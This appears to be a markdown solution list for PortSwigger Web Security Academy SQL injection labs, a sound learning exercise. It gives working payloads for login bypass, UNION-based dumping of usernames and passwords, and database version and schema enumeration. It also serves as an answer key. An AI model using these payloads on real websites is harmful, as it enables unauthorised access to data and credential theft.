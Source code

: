 
# Portswigger

### SQL Injection 

##### 1. SQL injection vulnerability in WHERE clause allowing retrieval of hidden data 

**payload**: `filter?category=Gifts'+OR+1+=+1--` 

##### 2. SQL injection vulnerability allowing login bypass 

**payload**: `password: ' OR 1=1--` 

##### 3. SQL injection UNION attack, determining the number of coulmns returned by the query 

**payload**: `filter?category=Gifts'+UNION+SELECT+NULL,NULL,NULL--` 

##### 4. SQL injection UNION attack, finding a coulmn containing text 

**payload**: `filter?category=Pets'+UNION+SELECT+NULL,'YK6gYm',NULL--` 

##### 5. SQL injection UNION attack, retrieving data from other tables 

**payload**: `filter?category=Gifts'+UNION+SELECT+username,password+FROM+users--` 
This will give the Password of user admin. 

##### 6. SQL injection UNION attack, retrieving multiple values in a single column 

**payload**: `'+UNION+SELECT+NULL,username||'~'||password+FROM+users--` 
This will give the password for user admin. 

##### 7. SQL injection attack, querying the database type and version on Oracle 

**payload**: `Pets%'+UNION+SELECT+BANNER,+NULL+FROM+v$version--` 
This will leak the database version. 

##### 8. SQL injection attack, querying the database type and version on MySQL and Microsoft 

**payload**: `'+UNION+SELECT+@@version,+NULL#` 

##### 9. SQL injection attack, listing the database contents on non-Oracle databases 

1) `'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--` will give the username `users_qjqsdw`.  
2) `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_qjqsdw'--  
` will give `password_tmajay` and  `username_mwfumq`  
3) `' UNION SELECT username_mwfumq, password_tmajay FROM users_qjqsdw--` will give the admin creds.  

##### 10. SQL injection attack, listing the database contents on Oracle 

**payload**: `' UNION SELECT USERNAME_MUNMCB, PASSWORD_QYRMVB FROM USERS_VLOTNP--` 

This will give the creds of admin. 
